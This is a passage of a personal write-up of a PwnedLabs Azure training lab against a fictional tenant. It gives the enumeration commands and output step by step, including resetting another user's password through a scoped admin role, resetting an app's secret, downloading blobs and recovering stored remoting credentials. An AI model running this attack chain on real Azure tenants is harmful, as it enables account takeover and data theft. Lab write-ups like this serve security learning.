



---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/clouds/azure/pwned-labs/8-execute-azure-credential-shuffle-to-achieve-objectives/","noteIcon":"","created":"2025-04-15T14:11:19.595-04:00"}
---


This write-up is based on PwnedLabs.io’s paid module, **Execute Azure Credential Shuffle to Achieve Objectives**, which offers top-notch content at an unbeatable price. While I’m not affiliated with PwnedLabs.io, I highly recommend their resources. Learn more about their subscription options at [PwnedLabs.io/pricing](https://pwnedlabs.io/pricing).


----


# 0. Summary

This module, **Execute Azure Credential Shuffle to Achieve Objectives**, began with enumerating Administrative Units (AUs), which felt very similar to Organizational Units in Active Directory. Using an insecure configuration, we were able to reset a Service Account password. After gaining low-privilege system access, we performed a deep dive into Windows system enumeration and discovered credentials in a custom script.

 In my opinion, this was the best module so far and the longest Azure track.


# 1. Tenant, Subscription, Resource!
Starting with account enumeration, we can see two accounts: one at the tenant level and another for the subscription.


```bash
az account list                                                                                                                                          
[
  {
    "cloudName": "AzureCloud",                                                
    "id": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "isDefault": false,                                                       
    "name": "N/A(tenant level account)",
    "state": "Enabled",                                                       
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {                                                                 
      "name": "archive@megabigtech.com",
      "type": "user"        
    }
  },
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",


$ az account subscription list
Command group 'account subscription' is experimental and under development. Reference and support levels: https://aka.ms/CLI_refstatus
[
  {
    "authorizationSource": "RoleBased",
    "displayName": "Microsoft Azure Sponsorship",
    "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "state": "Enabled",
    "subscriptionId": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "subscriptionPolicies": {
      "locationPlacementId": "Public_2014-09-01",
      "quotaId": "Sponsored_2016-01-01",
      "spendingLimit": "Off"
    }
  }
]

```


Let’s get more details about the database:

```bash

$ az resource list            
[
  {
    "changedTime": "2023-10-23T23:09:28.292953+00:00",
    "createdTime": "2023-10-23T22:59:05.971983+00:00",
    "extendedLocation": null,
    "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/content-static-2/providers/Microsoft.Storage/storageAccounts/custdatabase",
    "identity": null,
    "kind": "StorageV2",
    "location": "eastus",
    "managedBy": null,
    "name": "custdatabase",
    "plan": null,
    "properties": null,
    "provisioningState": "Succeeded",
    "resourceGroup": "content-static-2",
    "sku": {
      "capacity": null,
      "family": null,
      "model": null,
      "name": "Standard_RAGRS",
      "size": null,
      "tier": "Standard"
    },
    "tags": {},
    "type": "Microsoft.Storage/storageAccounts"
  }
]

```


The database seems to be available in two different locations. Let’s confirm this:


```bash
az resource show -g content-static-2 -n custdatabase  --resource-type "Microsoft.Storage/storageAccounts"

{                                                                                                                                                    [48/177]
  "extendedLocation": null,                                                   
  "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/content-static-2/providers/Microsoft.Storage/storageAccounts/custdatabase",
  "identity": null,               
  "kind": "StorageV2",
  "location": "eastus",         
  "managedBy": null,           
  "name": "custdatabase",
  "plan": null,       
  "properties": {              
    "accessTier": "Hot",
    "allowBlobPublicAccess": false,                                           
    "allowCrossTenantReplication": false,                   
    "allowSharedKeyAccess": true,                                             
    "creationTime": "2023-10-23T22:59:06.4460843Z",         
    "defaultToOAuthAuthentication": false,                    
    "dnsEndpointType": "Standard",
    "encryption": {
      "keySource": "Microsoft.Storage", 
      "requireInfrastructureEncryption": false,
      "services": {
        "blob": {
          "enabled": true,
          "keyType": "Account",
          "lastEnabledTime": "2023-10-23T22:59:06.6023343Z"
        },
        "file": {
          "enabled": true,
          "keyType": "Account",
          "lastEnabledTime": "2023-10-23T22:59:06.6023343Z"
        }
      }
    },
...snip...
    "primaryEndpoints": {
      "blob": "https://custdatabase.blob.core.windows.net/",
      "dfs": "https://custdatabase.dfs.core.windows.net/",
      "file": "https://custdatabase.file.core.windows.net/",
      "queue": "https://custdatabase.queue.core.windows.net/",
      "table": "https://custdatabase.table.core.windows.net/",
      "web": "https://custdatabase.z13.web.core.windows.net/"
    },
...snip...
    "secondaryEndpoints": {
      "blob": "https://custdatabase-secondary.blob.core.windows.net/",
      "dfs": "https://custdatabase-secondary.dfs.core.windows.net/",
      "queue": "https://custdatabase-secondary.queue.core.windows.net/",
      "table": "https://custdatabase-secondary.table.core.windows.net/",
      "web": "https://custdatabase-secondary.z13.web.core.windows.net/"
    },

    "secondaryLocation": "westus",
    "statusOfPrimary": "available",
    "statusOfSecondary": "available",
    "supportsHttpsTrafficOnly": true
  },                           


```


# 2. Table?
We found a table named customers. Unfortunately, we don’t have the required permissions to access it.


```bash
 az storage table list --account-name custdatabase --auth-mode login
[
  {
    "name": "customers"
  }
]

 az storage entity query --table-name customers --account-name custdatabase --output table --auth-mode login

You do not have the required permissions needed to perform this operation.
Depending on your operation, you may need to be assigned one of the following roles:
    "Storage Blob Data Owner"
    "Storage Blob Data Contributor"
    "Storage Blob Data Reader"
    "Storage Queue Data Contributor"
    "Storage Queue Data Reader"
    "Storage Table Data Contributor"
    "Storage Table Data Reader"

If you want to use the old authentication method and allow querying for the right account key, please use the "--auth-mode" parameter and "key" value.
                    

```
We need roles like "Storage Table Data Reader" or "Storage Table Data Contributor" to access this.


# 3. Administrative Units

What are Administrative Units?

Administrative Units (AUs) are management container used to delegate management rights to users, devices, or groups. This is particularly useful for large organizations that are spread geographically or logically. For example, Microsoft sales teams in Georgia and East Asia might need different administrative units due to varying rulesets and time zones.


In Entra ID (formerly Azure AD), Administrative Units are conceptually similar to Organizational Units (OUs) in Active Directory.


More information is available here: [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure Entra#2. Administrative Units\|Entra AU]].

You can list Administrative Units via Microsoft Graph:


```bash

az rest --method GET --url https://graph.microsoft.com/v1.0/directory/administrativeUnits | jq


az rest --method GET --url https://graph.microsoft.com/v1.0/directory/administrativeUnits | jq '.value[] | {displayName, id}'

PS> az rest --method GET --url https://graph.microsoft.com/v1.0/directory/administrativeUnits | jq -r '.value[] | .id' > id.txt

47e4803e-a5ef-4ebc-b967-691815870abd
4a3288aa-1a8b-485a-8ced-2bd80feef625
57d14139-35e8-4cfb-a2a6-2b7dcd232436
beae0ee3-3284-4a4f-94c9-e3a20ef0f388
f123c66b-8c78-4bd1-947f-8d43b3a21d04


```


## 3.1 Get AU with Bash Automation
A wise man said if I need to repeat more than three times, automate it! Here is my sad bash script using while loop.  And we see dbuser (The current credential) in AU Megabigtech-UNIT1 is a scopedRoleMembers. 

This shows that dbuser is a Scoped Role Member with Authentication Administrator privileges, allowing the user to view, set, and reset authentication methods for non-admin users.


```bash
while read -r ID; do    az rest --method GET --url "https://graph.microsoft.com/v1.0/directory/administrativeUnits/$ID/scopedRoleMembers" | jq '.value[]'
 ; done < ./id.txt                                                            

{                    
  "administrativeUnitId": "47e4803e-a5ef-4ebc-b967-691815870abd",
  "id": "t3O2zIerwE-HxTl1GgSVOT6A5EfvpbxOuWdpGBWHCr2JOlrCBKWAS5tnghnade9ZU",
  "roleId": "ccb673b7-ab87-4fc0-87c5-39751a049539",
  "roleMemberInfo": {
    "displayName": "dbuser",
    "id": "c25a3a89-a504-4b80-9b67-8219da75ef59",                
    "userPrincipalName": "dbuser@megabigtech.com"                           
  }                                                                           
}                    
{                                                                             
  "administrativeUnitId": "4a3288aa-1a8b-485a-8ced-2bd80feef625",
  "id": "Wz_yRLtppEGkF8VCd3LeQaqIMkqLGlpIjO0r2A_u9iWT6-WiZH3YQJ4jcVqcylESU",
  "roleId": "44f23f5b-69bb-41a4-a417-c5427772de41",
  "roleMemberInfo": {
    "displayName": "Angelina Lee",                                            
    "id": "a2e5eb93-7d64-40d8-9e23-715a9cca5112",                           
    "userPrincipalName": "alee@megabigtech.com"    
  }                  
}                                                                             
  "administrativeUnitId": "beae0ee3-3284-4a4f-94c9-e3a20ef0f388",                                                                                    [0/1977]
  "id": "4V6Zs0hlrkaGG7kWoM-NzuMOrr6EMk9KlMnjog7w84jjHBjZBqHdSowsSHWjgDQQS",  
  "roleId": "b3995ee1-6548-46ae-861b-b916a0cf8dce",
  "roleMemberInfo": {                                                         
    "displayName": "teams-bot-password-reset",                              
    "id": "d9181ce3-a106-4add-8c2c-4875a3803410"   
  }                  
}                                 
{                                                                             
  "administrativeUnitId": "f123c66b-8c78-4bd1-947f-8d43b3a21d04",           
  "id": "Wz_yRLtppEGkF8VCd3LeQWvGI_F4jNFLlH-NQ7OiHQTEs2y1FcE6Tp41VhSioyw8S",  
  "roleId": "44f23f5b-69bb-41a4-a417-c5427772de41",
  "roleMemberInfo": {                                                         
    "displayName": "megabigtech-hr-portal",                      
    "id": "b56cb3c4-c115-4e3a-9e35-5614a2a32c3c"                              
  }                                                                           
}                                                                             
{                                                                                                                                                            
  "administrativeUnitId": "f123c66b-8c78-4bd1-947f-8d43b3a21d04",             
  "id": "4V6Zs0hlrkaGG7kWoM-NzmvGI_F4jNFLlH-NQ7OiHQTEs2y1FcE6Tp41VhSioyw8S",  
  "roleId": "b3995ee1-6548-46ae-861b-b916a0cf8dce",                           
  "roleMemberInfo": {                                                         
    "displayName": "megabigtech-hr-portal",                                   
    "id": "b56cb3c4-c115-4e3a-9e35-5614a2a32c3c"                              
  }                     

```

But what is mean dbuse is a scopedRoleMembers?
[>Scoped-role membership provides a mechanism to allow a tenant-wide company administrator to delegate administrative privileges to a user, to manage users and groups in a subset of the organization.](https://learn.microsoft.com/en-us/graph/api/resources/scopedrolemembership?view=graph-rest-1.0)

\
As we can see from the below snippet, the user `dbuser` holds an Authentication Administrator role, which allowed to view, set and reset authentication method information for any non-admin user. 


```bash

$    az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/ccb673b7-ab87-4fc0-87c5-39751a049539" --headers "Content-Type=application/json" | jq
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#directoryRoles/$entity",
  "deletedDateTime": null,
  "description": "Allowed to view, set and reset authentication method information for any non-admin user.",
  "displayName": "Authentication Administrator",
  "id": "ccb673b7-ab87-4fc0-87c5-39751a049539",
  "roleTemplateId": "c4e39bd9-1100-46d3-8c65-fb160da0071f"


$ az rest --method GET --url https://graph.microsoft.com/v1.0/directory/administrativeUnits | jq -r '.value[] | "\(.id) \(.displayName)"'

47e4803e-a5ef-4ebc-b967-691815870abd Megabigtech-UNIT1
4a3288aa-1a8b-485a-8ced-2bd80feef625 ONBOARDING-ENGINEERING
57d14139-35e8-4cfb-a2a6-2b7dcd232436 CONTRACTORS
beae0ee3-3284-4a4f-94c9-e3a20ef0f388 User Management
f123c66b-8c78-4bd1-947f-8d43b3a21d04 HR-UNIT2

```

## 3.2 Hi Daiki - Reset Password using AU

Daiki is a member of the group `Megabigtech-UNIT1`.  So just to recap, a user `dbuser` holds high privilege, as an Authentication Administrator, on a group `Megabigtech-UNIT1` and Daiki is a member of the group. 

```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/directory/administrativeUnits/47e4803e-a5ef-4ebc-b967-691815870abd/members" | jq '.value[]'
{
  "@odata.type": "#microsoft.graph.user",
  "businessPhones": [],
  "displayName": "Daiki Hiroko",
  "givenName": "Daiki",
  "id": "01cefafa-a156-46ec-9b0c-ce6b625144a2",
  "jobTitle": "Mid Developer",
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": "Hiroko",
  "userPrincipalName": "Daiki.Hiroko@megabigtech.com"
w}

```


Let’s reset Daiki’s password. 
```bash
az ad user update --id Daiki.Hiroko@megabigtech.com --password '1qaz2wsx!QAZ@WSX'    

```
Once I logged in from the command line,  the web asks to update the password. 


Now, let's enumerate Daiki's resources:


```bash
	az login -u Daiki.Hiroko@megabigtech.com -p *****

az ad signed-in-user show
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#users/$entity",
  "businessPhones": [],
  "displayName": "Daiki Hiroko",
  "givenName": "Daiki",
  "id": "01cefafa-a156-46ec-9b0c-ce6b625144a2",
  "jobTitle": "Mid Developer",
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": "Hiroko",
  "userPrincipalName": "Daiki.Hiroko@megabigtech.com"
}

```


# 4. Let's enumerate again!
It seems like Daiki has access to a web application resource.
```bash
 az resource list                                                                                                  
[
  {
    "changedTime": "2023-12-28T17:15:20.419820+00:00",
    "createdTime": "2023-12-18T18:08:57.592361+00:00",
    "extendedLocation": null,
    "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/megabigtech-dev_group/providers/Microsoft.Web/sites/megabigtech-dev",
    "identity": {
      "principalId": "7d59eb72-783f-40e1-a012-f211e72b71ea",
      "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
      "type": "SystemAssigned",
      "userAssignedIdentities": null
    },
    "kind": "app",
    "location": "eastus",
    "managedBy": null,
    "name": "megabigtech-dev",
    "plan": null,
    "properties": null,
    "provisioningState": "Succeeded",
    "resourceGroup": "megabigtech-dev_group",
    "sku": null,
    "tags": {},
    "type": "Microsoft.Web/sites"
  }
]


```

## 4.1 Web app
Let's dig deeper. [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure App Services\|Azure App Services]]

```bash
az resource list
      "megabigtech-dev.azurewebsites.net",                                    
      "megabigtech-dev.scm.azurewebsites.net"  
```

DDaiki seems to have access to the main dev site, but not the SCM (Source Control Management) site. An SCM site, or known as Kudu, is a service site where we can have debugging shells, get env/log, or get low privilege system level access. More info is here [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure App Services#1.1 Kudu\|Kudu]]. 
For us, this means we gotta dig deeper! Yes!!

Let's look for web application.

```bash
az webapp list-instances -g megabigtech-dev_group -n megabigtech-dev
[
  {
    "consoleUrl": "https://megabigtech-dev.scm.azurewebsites.net/DebugConsole?instance=92ca53ad8db4fbb93d4d3b7d8ab54dcf8ffecb2d731f25b0e91ad575d7534c3f",
    "containers": null,
    "detectorUrl": "https://megabigtech-dev.scm.azurewebsites.net/detectors",
    "healthCheckUrl": null,
    "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/megabigtech-dev_group/providers/Microsoft.Web/sites/megabigtech-dev/instances/92ca53ad8db4fbb93d4d3b7d8ab54dcf8ffecb2d731f25b0e91ad575d7534c3f",
    "kind": null,
    "location": "East US",
    "name": "92ca53ad8db4fbb93d4d3b7d8ab54dcf8ffecb2d731f25b0e91ad575d7534c3f",
    "resourceGroup": "megabigtech-dev_group",
    "state": "UNKNOWN",
    "statusUrl": "",
    "type": "Microsoft.Web/sites/instances"
  }
]

```


So here is what I know.  Daiki is in ResourceGroup `megabigtech-dev_group` and has a resource `megabigtech-dev`. Let's know more about this group. 
```bash

	"resourceGroup": "megabigtech-dev_group",
    "name": "megabigtech-dev",
    
```


## 4.2 Object
Let's look at owned-objects. It looks like daiki owns `daiki-appspn`

```bash
az ad signed-in-user list-owned-objects      
...snip...
"displayName": "daiki-appspn",                                            
    "groupMembershipClaims": null,                                            
    "id": "ab743eea-102d-486f-8b76-b833180694c3",                             
    "identifierUris": [],            
...snip...
"passwordCredentials": [                                                  
      {
        "customKeyIdentifier": null,
        "displayName": "Created in PowerShell",
        "endDateTime": "2026-09-20T21:08:16.5881511Z",
        "hint": "rmG",
        "keyId": "80a46a97-d145-4ffe-bd91-92ca98f17aff",
        "secretText": null,
        "startDateTime": "2024-09-20T21:08:16.5881511Z"
      },
...snip...
```

## 4.3 Entra ID App?
```bash
az ad app list --display-name daiki-appspn --output table 
DisplayName    Id                                    AppId                                 CreatedDateTime
-------------  ------------------------------------  ------------------------------------  --------------------
daiki-appspn   ab743eea-102d-486f-8b76-b833180694c3  3626d80c-9f3b-48f9-a445-65a1ad9129af  2023-12-17T02:22:46Z

```

## 4.4 Credentials 

I was able to reset the password, but now what?
```bash
az ad app credential list --id ab743eea-102d-486f-8b76-b833180694c3              
[                               
  {                             
    "customKeyIdentifier": null,      
    "displayName": "Created in PowerShell",     
    "endDateTime": "2026-09-20T21:08:16.5881511Z",  
    "hint": "rmG",                       
    "keyId": "80a46a97-d145-4ffe-bd91-92ca98f17aff",       
    "secretText": null,                         
    "startDateTime": "2024-09-20T21:08:16.5881511Z"   
  },                                                                                                                                                              ...snip...


az ad app credential reset --id ab743eea-102d-486f-8b76-b833180694c3  

...snip
{
  "appId": "3626d80c-9f3b-48f9-a445-65a1ad9129af",
  "password": "<REDACTED>",
  "tenant": "2590ccef-687d-493b-ae8d-441cbab63a72"
}
```


## 4.5 Log in with az ad app credentials
I'm not sure what the issue is here. Once I logged in with the AppID, I was unable to perform further enumeration. I was really frustrated here. 

```bash
$ az login --service-principal -u 3626d80c-9f3b-48f9-a445-65a1ad9129af -p <REDACTED> --tenant 2590ccef-687d-493b-ae8d-441cbab63a72 --allow-no-subscriptions


[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "3626d80c-9f3b-48f9-a445-65a1ad9129af",
      "type": "servicePrincipal"
    }
  }
]

```

### 4.5.1 AZ CLI and AZ powershell limitation because of role assignment. 

Thanks to egre55 from the Pwnlab's channel, I was able to gain the reason why I couldn't see the storage information. In a nutshell, if an identity is assigned an RBAC role scoped to **ONLY** a blob container, and not the storage account, AZ CLI/Powershell won't recognize it.

>The service principal has the Reader and Storage Blob Data Reader RBAC roles scoped to the general-storage blob container in the storageqaenv storage account. it's not an issue with tokens, we still need an ARM token to list the containers, just need the storage token when it comes to listing and downloading blobs within the container. if you know the resource group and storage account name, you can list the containers that you have access to, using a direct API call. it seems the CLI tools require read access to `/subscriptions/$subscriptionId/resourceGroups/$resourceGroupName/providers/Microsoft.Storage/storageAccounts/$storageAccountName`, but we can directly query `https://management.azure.com/subscriptions/$subscriptionId/resourceGroups/$resourceGroupName/providers/Microsoft.Storage/storageAccounts/$storageAccountName/blobServices/default/containers` using a direct API call

When we type az resource list, it queries at the subscription or resource group level, which requires the Reader role at that level. If a service principal has an RBAC role scoped only to a blob container, it won't have access to storage account details. To list storage containers, the account must have the Reader Role at the Storage Account Level.


In order for us to get the storage container list, we will need an account `Reader Role at Storage Account Level`



As shown below, I am logged in using a service principal account.

```bash
$ az account show --query user.type -o tsv

servicePrincipal
```

### 4.5.2 Role and Scope
As mentioned earlier, the Reader Role is required to access resources. The results below show two roles assigned to the service principal: Reader and Storage Blob Data Reader. ==Pay attention to the scope:== both roles are scoped specifically to the `general-purpose`container in the `storageqaenv` storage account. Because the container is inside a storage account, running az storage account list will return no results.


However, az role assignment list can identify storage accounts and blob containers.


```bash
$ az role assignment list --assignee $(az account show --query user.name -o tsv) --all

$ az role assignment list --assignee 3626d80c-9f3b-48f9-a445-65a1ad9129af --all                                                                            
[                                                                             
	  {                                                                              ...snip...
    "createdBy": "b1377e93-4fa9-48f0-a2af-4a5df2ed7ac5",                         ...snip...
        "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourcegroups/mbt-rg-1/providers/Microsoft.Storage/storageAccounts/storageqaenv/blobServices/
default/containers/general-purpose/providers/Microsoft.Authorization/roleAssignments/eb32db72-fea7-40be-b2b0-2354dceac4e6",
"name": "eb32db72-fea7-40be-b2b0-2354dceac4e6",                                  
    "principalId": "f92ac1b8-937e-4cb1-8555-572c57e00331",                       
    "principalName": "3626d80c-9f3b-48f9-a445-65a1ad9129af",                     
    "principalType": "ServicePrincipal",                                         
    "resourceGroup": "mbt-rg-1",                                                 
    "roleDefinitionId": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/providers/Microsoft.Authorization/roleDefinitions/acdd72a7-3385-48ef-bd42-f606fba81ae7",                                                         
    "roleDefinitionName": "Reader",                                              
    "scope": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourcegroups/mbt-rg-1/providers/Microsoft.Storage/storageAccounts/storageqaenv/blobServices/default/containers/general-purpose",                                          
       ...snip...
  },                                                                                                                                                        
  {                                                                                                                                                          
    ...snip...
    "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourcegroups/mbt-rg-1/providers/Microsoft.Storage/storageAccounts/storageqaenv/blobServices/default/containers/general-purpose/providers/Microsoft.Authorization/roleAssignments/841dacca-616b-46e8-8086-8559aa0ba013",                                  
    "name": "841dacca-616b-46e8-8086-8559aa0ba013",                         
    "principalId": "f92ac1b8-937e-4cb1-8555-572c57e00331",                    
    "principalName": "3626d80c-9f3b-48f9-a445-65a1ad9129af",                  
    "principalType": "ServicePrincipal",                                    
    "resourceGroup": "mbt-rg-1",                                              
    "roleDefinitionId": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/providers/Microsoft.Authorization/roleDefinitions/2a2b9908-6ea1-4ae2-8e65-a410df84e7d1",                
    "roleDefinitionName": "Storage Blob Data Reader",                         
    "scope": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourcegroups/mbt-rg-1/providers/Microsoft.Storage/storageAccounts/storageqaenv/blobServices/default/containers/general-purpose",                                       
     ...snip...                                                                       
  } 
]

```


### 4.5.3 Get storage blob
Thanks to [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.1. Azure General/Azure REST API with Azure CLI\|Azure REST API with Azure CLI]]. We can directly query blob information. Before we query blob information, let's ask ourselves. **What is blob?** 

A Binary Level OBject(blob) is a storage option for any type of data in binary format. . According to Microsoft, [A blob is **a binary, large object and a storage option for any type of data that you want to store in a binary format**.](https://azure.microsoft.com/en-us/products/storage/blobs) Another words, it is just a big data. 
In Azure, blobs are stored in [[../../../0.1. Learn Cloud/0.1.2 Azure/0.1.2.2. Azure Services/Azure Storage Account#1. What is Azure Storage ?\|Azure Storage Account]].  

```bash

curl -X GET "https://management.azure.com/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-1/providers/Microsoft.Storage/storageAccounts/storageqaenv/blobServices/default/containers?api-version=2021-04-01" -H "Authorization: Bearer $(az account get-access-token --resource https://management.azure.com --query accessToken -o tsv)"                                                                               
curl -X GET "https://storageqaenv.blob.core.windows.net/general-purpose?restype=container&comp=list" \
-H "Authorization: Bearer $(az account get-access-token --resource https://storage.azure.com --query accessToken -o tsv)" \
-H "x-ms-version: 2020-08-04" | sed 's/></>\n</g'

```


From the [[8. Execute Azure Credential Shuffle to Achieve Objectives#4.5.2 Role and Scope\|#4.5.2 Role and Scope]] query, we have the Container and account names. Let's use AZ CLI to see/download what blobs are stored under the account `storageqaenv`. 
```bash
└─$ az storage blob list \
  --container-name general-purpose \
  --account-name storageqaenv \
  --auth-mode login \
  --output table

Name                      Blob Type    Blob Tier    Length    Content Type    Last Modified              Snapshot
------------------------  -----------  -----------  --------  --------------  -------------------------  ----------
Dev-cred.txt              BlockBlob    Hot          348       text/plain      2023-12-19T05:10:07+00:00
Release_Notes.txt         BlockBlob    Hot          219       text/plain      2023-12-17T03:55:14+00:00
Terms and Conditions.txt  BlockBlob    Hot          354       text/plain      2023-12-17T03:55:14+00:00
meeting_minutes.txt       BlockBlob    Hot          308       text/plain      2023-12-17T03:41:45+00:00
                                                                                                                            


az storage blob download-batch  -s general-purpose  --account-name storageqaenv   --auth-mode login  -d .
OR 

└─$     az storage blob download-batch \
  -s general-purpose \                                                         
  --account-name storageqaenv \
  --auth-mode login  -d .                                        
Finished[#############################################################]  100.0000%
[                
  "Dev-cred.txt",
  "Release_Notes.txt",
  "Terms and Conditions.txt",
  "meeting_minutes.txt"
]                 

```

### 4.5.4 Get credentials

From the Dev-cred.txt file, we find the next target's information, including IP, credentials, and network protocol. One key concept here is PSSession.

One thing we need to clarify is PSSession. 


```bash

$ cat Dev-cred.txt                                                                                       
# credentials for the DEV team
$passw = ConvertTo-SecureString "*****" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('devuser',$passw) 

$vm = New-PSSession -ComputerName 172.191.90.57 -Credential $cred -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession -Session $vm  


```

#### 4.5.4.1 PSSession?
According to Microsoft, [When you create a PSSession, PowerShell establishes a persistent connection to the remote computer.](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.4)

Briefly, `new-PsSession`  creates a persistent connection using either winrm or ssh . This leads us to the next question. What is winrm? It is a protocol used by developers and IT professionals to manage windows system. Normally Port 5985 or 5986.  See more from [[../../../../6. Windows OS/6.1 Learn Windows/1. Windows Basic/Windows Remote Management\|Windows Remote Management]]. 


# 5. Enumerate `DevTeamVM`

Before we dive in, let's take a step back. Since we have an IP address, let's start the enumeration from the beginning.  The very first thing I normally do is the connectivity. What ports are open, which ones are being used, etc. 




## 5.1  External Network Enumeration

### 5.1.1 whois
Based on the whois result, it seems like this ip space is owned by Microsoft.  I tried nmap but I did not receive any returns. 
```bash
whois 172.191.90.57     

...snip...
inetnum:        172.128.0.0 - 172.215.255.255
netname:        UK-MICROSOFT-20000324
country:        GB
org:            ORG-MA42-RIPE
admin-c:        DH5439-RIPE
tech-c:         MRPA3-RIPE
status:         ALLOCATED PA
mnt-by:         RIPE-NCC-HM-MNT
mnt-by:         MICROSOFT-MAINT
mnt-lower:      MICROSOFT-MAINT
mnt-domains:    MICROSOFT-MAINT
mnt-routes:     MICROSOFT-MAINT
...snip...

```

### 5.1.2 Shodan
Shodan indicates Port 22, 5985, and 5986 are open.  Let's try both!


## 5.2 Internal Network Enumeration
